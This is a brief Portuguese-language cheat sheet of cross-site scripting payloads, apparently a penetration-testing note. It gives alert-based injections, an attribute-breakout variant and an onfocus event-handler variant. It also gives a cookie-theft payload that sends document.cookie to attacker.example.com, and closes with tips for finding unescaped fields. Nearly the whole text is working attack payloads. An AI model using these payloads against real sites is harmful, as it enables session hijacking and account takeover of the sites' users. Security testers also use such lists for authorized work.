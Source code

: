 #### Uso geral
<script>alert(1)</script>

#### Caso esteja dentro de caracteres especiais
"><script>alert(1)</script><"

#### Sem javascript puro
" onfocus="alert(1)"

#### Sequesto por requisição
<script>new Image().src = "http://attacker.example.com/?" + document.cookie</script>

#### Dicas
- verificar sublinks, as vezes o valor não é escapado dentro deles
- verificar todos os campos, nem sempre todos os campos são escapados corretamente